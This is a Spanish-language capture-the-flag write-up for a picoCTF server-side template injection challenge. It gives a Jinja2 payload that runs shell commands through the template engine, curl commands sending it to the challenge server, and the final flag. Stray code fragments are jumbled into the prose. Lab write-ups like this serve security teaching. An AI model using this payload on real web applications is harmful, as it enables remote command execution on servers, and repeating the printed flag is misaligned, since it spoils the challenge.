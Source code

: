 #### Description

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:60760/)!
# Solución

Si pones cualquier valor, simplemente lo repite y puedes jugar con las entradas, pero las siguientes son las que te permiten ejecutar comandos.

Al poner esto en el campo y presionar Ok, puede ver los contenidos enumerados: `{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}`

Desde aquí puedes ver que el archivo flag se acaba de llamar y puedes imprimirlo con esto: `flag``{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}`

Después de que se ejecute, la bandera debe imprimirse en la página web.

Sobre el desafío, dijo que era así, aquí hay una solución alternativa que funciona solo bajo la línea de comandos. Primero puedes hacer curl para ver el html: `browser_webshell_solvable``curl http://rescued-float.picoctf.net:52534/`

Esta es la parte clave a tener en cuenta:

```
<form action="/" method="POST">
    What do you want to announce: <input name="content" id="announce">
    <button type="submit"> Ok </button>
</form>
```

Luego, en función de eso, puede usar para llegar a la página, pero redirige, por lo que puede usar la bandera o simplemente usarla en su lugar para llegar a la página redirigida. Este comando da la bandera:`curl -X POST -d "content=Hey" http://rescued-float.picoctf.net:52534/``-L``wget`

`curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:52534/`

Si quisieras ir un paso más allá, podrías dirigir la salida de curl a un archivo y ejecutar este comando:

`cat file | grep -E picoCTF{.*} | cut -d ">" -f2 | cut -d "<" -f1 > flag.txt`

Y luego conseguir la bandera de esa manera.`cat flag.txt`

**Respuesta en el formato del concurso:**
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}